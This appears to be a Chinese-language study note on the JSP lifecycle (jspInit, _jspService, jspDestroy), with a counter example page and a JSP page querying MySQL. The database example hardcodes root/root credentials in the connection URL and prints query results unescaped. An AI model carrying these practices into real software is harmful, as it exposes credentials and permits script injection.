一般情况下，JSP 引擎会检查 JSP 文件对应的 Servlet 是否已经存在，并且检查 JSP 文件的修改日期是否早于 Servlet。如果 JSP 文件的修改日期早于对应的 Servlet，那么容器就可以确定 JSP 文件没有被修改过并且 Servlet 有效。这使得整个流程与其他脚本语言（比如 PHP）相比要高效快捷一些。

总的来说，JSP 网页就是用另一种方式来编写 Servlet 而不用成为 Java 编程高手。除了解释阶段外，JSP 网页几乎可以被当成一个普通的 Servlet 来对待。

##### JSP生命周期

理解JSP底层功能的关键就是去理解它们所遵守的生命周期。

JSP生命周期就是从创建到销毁的整个过程，类似于servlet生命周期，区别在于JSP生命周期还包括将JSP文件编译成servlet。

以下是JSP生命周期中所走过的几个阶段：

- **编译阶段：**

  servlet容器编译servlet源文件，生成servlet类

- **初始化阶段：**

  加载与JSP对应的servlet类，创建其实例，并调用它的初始化方法

- **执行阶段：**

  调用与JSP对应的servlet实例的服务方法

- **销毁阶段：**

  调用与JSP对应的servlet实例的销毁方法，然后销毁servlet实例

很明显，JSP生命周期的四个主要阶段和servlet生命周期非常相似，下面给出图示： 


###### JSP编译

当浏览器请求JSP页面时，JSP引擎会首先去检查是否需要编译这个文件。如果这个文件没有被编译过，或者在上次编译后被更改过，则编译这个JSP文件。

编译的过程包括三个步骤：

- 解析JSP文件。
- 将JSP文件转为servlet。
- 编译servlet。

###### JSP初始化

容器载入JSP文件后，它会在为请求提供任何服务前调用jspInit()方法。如果您需要执行自定义的JSP初始化任务，复写jspInit()方法就行了，就像下面这样： 

```java
public void jspInit(){
  // 初始化代码
}
```

一般来讲程序只初始化一次，servlet也是如此。通常情况下您可以在jspInit()方法中初始化数据库连接、打开文件和创建查询表。 

###### JSP执行

这一阶段描述了JSP生命周期中一切与请求相关的交互行为，直到被销毁。

当JSP网页完成初始化后，JSP引擎将会调用_jspService()方法。

_jspService()方法需要一个HttpServletRequest对象和一个HttpServletResponse对象作为它的参数，就像下面这样：

```java
void _jspService(HttpServletRequest request,
                 HttpServletResponse response)
{
   // 服务端处理代码
}
```

_jspService()方法在每个request中被调用一次并且负责产生与之相对应的response，并且它还负责产生所有7个HTTP方法的回应，比如GET、POST、DELETE等等。 

###### JSP清理

JSP生命周期的销毁阶段描述了当一个JSP网页从容器中被移除时所发生的一切。

jspDestroy()方法在JSP中等价于servlet中的销毁方法。当您需要执行任何清理工作时复写jspDestroy()方法，比如释放数据库连接或者关闭文件夹等等。

jspDestroy()方法的格式如下：

```java
public void jspDestroy()
{
   // 清理代码
}
```

###### 实例

JSP生命周期代码实例如下所示： 

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<html>
<head>
<title>life.jsp</title>
</head>
<body>

<%! 
  private int initVar=0;
  private int serviceVar=0;
  private int destroyVar=0;
%>
  
<%!
  public void jspInit(){
    initVar++;
    System.out.println("jspInit(): JSP被初始化了"+initVar+"次");
  }
  public void jspDestroy(){
    destroyVar++;
    System.out.println("jspDestroy(): JSP被销毁了"+destroyVar+"次");
  }
%>

<%
  serviceVar++;
  System.out.println("_jspService(): JSP共响应了"+serviceVar+"次请求");

  String content1="初始化次数 : "+initVar;
  String content2="响应客户请求次数 : "+serviceVar;
  String content3="销毁次数 : "+destroyVar;
%>
<h1>JSP 测试实例</h1>
<p><%=content1 %></p>
<p><%=content2 %></p>
<p><%=content3 %></p>

</body>
</html>
```

###### JSP链接数据库

```jsp
<%@ page contentType="text/html; charset=gb2312" %>   
<%@ page language="java" %>   
<%@ page import="com.mysql.jdbc.Driver" %>   
<%@ page import="java.sql.*" %>   
<%   
//加载驱动程序   
String driverName="com.mysql.jdbc.Driver";   
//数据库信息  
String userName="root";   
//密码   
String userPasswd="root";   
//数据库名   
String dbName="runoob";   
//表名   
String tableName="websites";   
//将数据库信息字符串连接成为一个完整的url（也可以直接写成url，分开写是明了可维护性强）   
  
String url="jdbc:mysql://localhost:3306/"+dbName+"?user="+userName+"&password="+userPasswd;   
Class.forName("com.mysql.jdbc.Driver").newInstance();   
Connection conn=DriverManager.getConnection(url);   
Statement stmt = conn.createStatement();   
String sql="SELECT * FROM "+tableName;   
ResultSet rs = stmt.executeQuery(sql);   
out.print("id");   
out.print("|");   
out.print("name");   
out.print("|");   
out.print("phone");   
out.print("<br>");   
while(rs.next()) {   
out.print(rs.getString(1)+" ");   
out.print("|");   
out.print(rs.getString(2)+" ");   
out.print("|");   
out.print(rs.getString(3));   
out.print("<br>");   
}   
out.print("<br>");   
out.print("ok， Database Query Successd！");   
rs.close();   
stmt.close();   
conn.close();   
%>  
```


今晚就到这了。

# 20180606

今天还是`Javaee`入门